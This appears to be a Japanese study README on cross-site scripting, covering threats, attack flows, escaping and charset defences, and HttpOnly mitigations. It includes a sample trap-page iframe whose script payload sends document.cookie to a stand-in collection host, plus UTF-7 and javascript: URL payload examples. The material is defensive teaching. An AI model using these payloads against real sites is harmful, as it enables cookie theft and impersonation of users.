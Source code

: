 # security-study

## XSS について調べてみた

### XSS の概要

ターゲットのブラウザ上で攻撃者が用意したスクリプトが実行される。
それによって以下のような脅威が発生する。

- ブラウザが保存しているクッキーを取得される
  - 成りすまし
  - クッキーに保存された個人情報の漏洩（ただし、一般的にはクッキーはセッション ID を保持するために使い、データを保存しないことが推奨される）
- 任意のクッキーをブラウザに保存させられる
  - セッション ID が利用者に送り込まれ、セッション ID の固定化攻撃に悪用される

例えば、以下のような手口で行われる。

- 攻撃者が罠サイトを用意する
- 罠サイトの iframe 要素の中に脆弱なサイトが表示される
- クッキー値をクエリ文字列につけると情報収集ページに遷移する（XSS 攻撃！）
- 情報収集ページから攻撃者にクッキー値を送信する
- ターゲット が罠サイト内に表示された脆弱なサイトをクリックすれば XSS 攻撃が成立！
- クッキー値を盗むことで攻撃者はターゲットに成りすませる

例えば、以下のようなコードで XSS 攻撃が行われる。

```html
<html>
  <body>
    激安商品情報
    <br /><br />
    <iframe
      width="320"
      height="100"
      src="http://vulnerable-site.com/example.php?
    keyword=<script>window.location='http://unlawfully-collect-cookie-site.com/example.php?sid='%2Bdocument.cookie;</script>"
    ></iframe>
  </body>
</html>
```

現在では HttpOnly 属性を付与することが増えたため、クッキー値を XSS 攻撃によって盗まれるケースは減ってきた。

しかし、XSS 攻撃による脅威は他にもあり、例えばクレジットカード情報がセキュリティコードも含めて流出することもある。

例えば、以下のような手口で行われる。

- 攻撃者が偽のクレジットカード情報入力画面を用意する
- 攻撃者がクレジットカード情報入力画面に悪意のあるスクリプトを埋め込む
- ターゲットがクレジットカード情報を入力し、入力画面から遷移しようとした時にクレジットカード情報が攻撃者の元へ送信される（XSS 攻撃成立）
- 偽の入力画面から攻撃者が用意した決済エラー画面に遷移する
- 偽の決済エラー画面から正規のクレジットカード情報入力画面に遷移する
- 正規の決済を行う
- 一連のフローによって攻撃されたことに気づかれにくくなる

セキュリティコードは割賦販売法によって企業が保存することは禁止されている。しかし、XSS 攻撃はブラウザ上で行われるため、サーバーに保存した値ではなくターゲットが画面に入力した値が盗まれてしまう。

### JavaScript による XSS

#### React で発生するケース

### XSS の根本的解決と保険的対策

#### 根本的解決

厳密には HTML テキストの入力を許可しない場合と HTML テキストの入力を許可する場合に分けられるが、多くの Web アプリケーションでは HTML テキストの入力を許可しないものを前提とする。（HTML テキストの入力を許可しうる Web アプリケーションの例として、ブログや掲示板など自由度の高い入力仕様があるものが挙げられる。）

- ウェブページに出力する全ての要素に対して、エスケープ処理を施す

  - ウェブページの表示に影響する特別な記号文字（「<」、「>」、「&」等）を、HTML エンティティ（「&lt;」、「&gt;」、「&amp;」等）に置換する
  - HTML タグを出力する場合は、その属性値を必ずダブルクォートで括り、それを「&quot;」にエスケープする
  - JavaScript の document.write メソッドや innerHTML プロパティ等を使用する場合も同様のエスケープ処理を行う

- HTTP レスポンスヘッダの Content-Type フィールドに文字コード（charset）を指定する

  - 文字コードの指定を省略すると、ブラウザが独自にエンコードするが、その挙動を悪用して不正なスクリプトを埋め込むことができる
  - 例えば、一部のブラウザでは「+ADw-script+AD4-alert(+ACI-test+ACI-)+ADsAPA-/script+AD4-」を UTF-7 でエンコードし、「<script>alert('test');</script>」が実行されてしまう（XSS 攻撃）
  - エスケープ処理を行っていても、ブラウザの文字エンコーディングと Web アプリケーションが想定している文字エンコーディングが異なると突破される可能性がある
  - エスケープ処理と合わせ、Web アプリケーションが想定している文字エンコーディングを指定することは必須

- URL を出力するときは、「http://」や 「https://」で始まる URL のみを許可する

  - URL には「javascript:」の形式で始まるものもあり、ウェブページに出力するリンク先や画像の URL が、外部からの入力に依存する形で動的に生成できると XSS 脆弱性が発生する
  - 利用者から入力されたリンク先の URL を「&lt;a href="リンク先の URL">」の形式でウェブページに出力する場合、その URL を「javascript:」で始めることで不正なスクリプトを埋め込める
  - 例えば、` <a href="javascript:alert(document.cookie)"></a>`のようなスクリプトを入れるとクッキー値が表示される

- <script>...</script> 要素の内容を動的に生成しない

  - 外部からの入力に依存して生成されると XSS 脆弱性をうむ
  - 危険なスクリプトを区別するのは非現実的

- スタイルシートを任意のサイトから取り込めるようにしない
  - 生成するウェブページに XSS 攻撃ができるスクリプトが埋め込まれてしまう可能性がある
  - 危険なスクリプトを区別するのは非現実的

#### 保険的対策

基本的には根本的解決を図るべきだが、XSS の対策箇所が多いため、漏れが生じる可能性がある。

以下のような保険的対策をとることで、万が一漏れが生じていた場合に XSS の被害を軽減できる場合がある。

- 入力値に対してバリデーションをかける

  - 英数字などのみを入力可能なフォームでは有効
  - 幅広い文字種入力できるような仕様ではこの対策は取れない
  - 入力値の確認処理を通過した後の文字列の演算結果がスクリプト文字列を形成してしまうプログラムになっている可能性もあるため、あくまで保険にすぎない

- クッキーに HttpOnly 属性を付与する

  - JavaScript からのクッキー読み出しができなくなる
  - サーバー側のセッションを持続させるクッキーは JavaScript が利用する必要はないので、 HttpOnly 属性をつける
  - しかし、クッキーを盗まれなくなるにすぎないため、これだけでは XSS による他の脅威は残ったままであることに注意が必要

### 他の攻撃との比較

#### CSRF との違い

#### セッションハイジャックとの違い

#### フィッシングとの違い

XSS 攻撃によって偽画面が表示されたり遷移したりすることもあるが、フィッシングとは異なる。

フィッシングは Web アプリケーション自体に脆弱性がなくても発生し、利用者側で注意すべきもの（運営側は「当サイトをかたり情報を抜き取ろうとしているケースが増加しています」などの注意喚起をすることぐらいしかできない）である。

一方で、XSS は Web アプリケーション自体に脆弱性があるために発生するものであり、利用者が対策することは不可能か極めて困難であるという違いがある。

## 参考

- 安全な Web アプリケーションの作り方 第 2 版 徳丸浩
- [安全なウェブサイトの作り方 - 1.5 クロスサイト・スクリプティング](https://www.ipa.go.jp/security/vuln/websecurity/cross-site-scripting.html)
- [HTTP Cookie の使用](https://developer.mozilla.org/ja/docs/Web/HTTP/Cookies)
- [クレジットカード情報漏洩の手口の動向～なぜ保存禁止のセキュリティコードまで漏洩するのか～](https://youtu.be/fXVasf_Kyhs?si=Ukb-05cmszmKX9BT)
